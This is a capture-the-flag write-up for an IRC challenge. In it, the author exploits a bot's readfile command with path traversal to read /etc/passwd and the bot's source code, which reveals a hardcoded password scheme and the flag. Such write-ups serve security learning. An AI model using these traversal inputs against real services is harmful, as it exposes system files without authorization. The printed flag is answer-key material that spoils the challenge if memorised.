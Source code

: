 # boomer / Oldschool IRC

## Question

> Yo, I heard you like old-school stuff.
> In ancient times, there were IRC networks.
> They were full of great people and helpful bots.
>
> Check out this IRC server and talk to the OP in `#challenge`
> (enable TLS in your IRC client!).
>
> Since the OP is a bot, he is not very talkative.
> Surely you'll figure out how to communicate with him!
>
> P.S. For a true 0ldsch00l experience, use an command line IRC client like `irssi` :)

## Solution

After [connecting to the IRC server](./sanity.md) and navigating to `#challenge`, we see that the other user is `BottyMcBotface`.
Trying a few basic commands in direct messages, we get a response with `help`

```
<retro> help
<BottyMcBotface> Available commands: bmi, update, youtube, whoareyou, tvdb, maze, ep, giveflag, readfile, storefile, cache . Note: For specific command help, use: help [<command>]
```

The `giveflag` command requires a password.
The `readfile` and `storefile` commands seem to write text to a file and retrieve it.
Notice that there's given names of Python files for "debugging".

```
<retro> help readfile
<BottyMcBotface> Help for readfile: [DEBUG: module_readfile.py]  Reads a file from the ./uploads folder. Usage: readfile [filename]
```

We can escape the current working directory with `readfile`.
Try increasing numbers of `../` with a known filename:

```
<retro> readfile ../../etc/passwd
<BottyMcBotface> Content of file ./uploads/../../etc/passwd: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin                 sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<BottyMcBotface> lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<BottyMcBotface> ...mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin                 proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:                 Manager:/var/list:/usr/sbin/nologin
<BottyMcBotface> ...irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
                 nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false messagebus:x:101:101::/var/run/dbus:/bin/false ctf:x:1000:1000::/home/ctf/:/bin/bash                        !
```

Trying the `whoareyou` command reveals that BottyMcBotface runs on `pyfibot`.

```
<retro> whoareyou
<BottyMcBotface> I'm glad you are interested in me! I'm a pyfibot, running on commit 2990edfd138cc63284728bdce7016a53ca025342. I also like bits an bytes. Check out my cool modules! I hopy we can be
                 friends! <3
```

We now know to look in a `pyfibot/modules` folder for a module called `module_giveflag.py`.
Once we find it through trial and error, we get the flag.

```
<retro> readfile ../pyfibot/modules/module_giveflag.py
<BottyMcBotface> Content of file ./uploads/../pyfibot/modules/module_giveflag.py: # -*- coding: utf-8 -*- """Simple data storage for files in /uploads """  from __future__ import unicode_literals,
                 print_function, division import os   def command_giveflag(bot, user, channel, args):     """[DEBUG: module_giveflag.py] Usage: giveflag [password]"""     params = args.split(u" ")
<BottyMcBotface> print(params)     if len(params) < 1
<BottyMcBotface> ...or len(params[0]) == 0:         bot.say(channel, "No password provided. Go away!")         return      password = params[0].decode("utf-8")          username = user.split("!")[0]                            if (password == username + "_can_h4ndl3_0ldschool_irc"):         bot.say(channel, "Good job! Your flag is: ALLES{0ld_sch0ol_1rc_was_sooooo0_c00l!4857}")     else:
<BottyMcBotface> bot.say(channel, "Thats not the password. Try
<BottyMcBotface> ...harder")      return   !
```

### Flag

`ALLES{0ld_sch0ol_1rc_was_sooooo0_c00l!4857}`
